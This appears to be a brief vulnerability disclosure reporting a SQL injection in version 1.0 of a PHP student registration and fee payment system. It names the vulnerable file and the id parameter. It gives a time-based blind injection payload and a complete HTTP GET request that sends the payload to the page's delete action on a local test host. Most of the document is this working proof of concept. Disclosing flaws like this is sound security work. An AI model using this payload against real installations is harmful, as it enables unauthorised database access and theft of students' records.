 # student-registration-and-fee-payment-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15355/student-registration-and-fee-payment-system-php-mysql.html

Date: 2022-05-07

Vulnerability File: /scms/student.php

Vulnerability location:/scms/student.php, id

[+] Payload: 5'and(select*from(select+sleep(3))a/**/union/**/select+1)='

Tested on Windows 10, XAMPP

```
GET http://192.168.2.102/scms/student.php?action=delete&id=5'and(select*from(select+sleep(3))a/**/union/**/select+1)=' HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Connection: close
Referer: http://192.168.2.102/scms/student.php?act=2
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj
Upgrade-Insecure-Requests: 1


```

![](https://github.com/mikeccltt/0525/blob/main/student-registration-and-fee-payment-system/sql.gif?raw=true)

